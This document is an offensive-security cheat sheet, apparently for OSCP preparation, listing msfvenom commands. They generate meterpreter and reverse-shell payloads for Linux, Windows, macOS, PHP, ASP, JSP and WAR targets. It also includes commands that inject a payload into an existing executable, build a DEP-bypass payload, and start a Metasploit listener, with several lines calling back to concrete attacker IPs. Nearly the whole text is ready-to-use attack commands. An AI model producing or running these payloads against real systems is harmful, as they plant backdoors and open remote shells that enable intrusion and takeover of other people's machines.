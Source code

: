 https://github.com/tagnullde/OSCP/blob/master/oscp-cheatsheet.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

# msfvenom
- serivce: all
- tactics: weaponization

## Linux ELF binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

## Windows EXE binary 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

MS17-010
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.124 LPORT=4445

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.239.155 LPORT=4444 -f aspx -o pwn.aspx
### 32 Bit
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe

### 64Bit
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe
    
## Windows Service
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe
    
## Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
    
## PHP 
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php
 msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f raw -o shell.php
> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
    
## ASP 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp 

## JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
    
## WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    
## Inject payload into an existing exe file
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>

## dep bypass payload
windows/meterpreter/reverse_nonx_tcp

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 
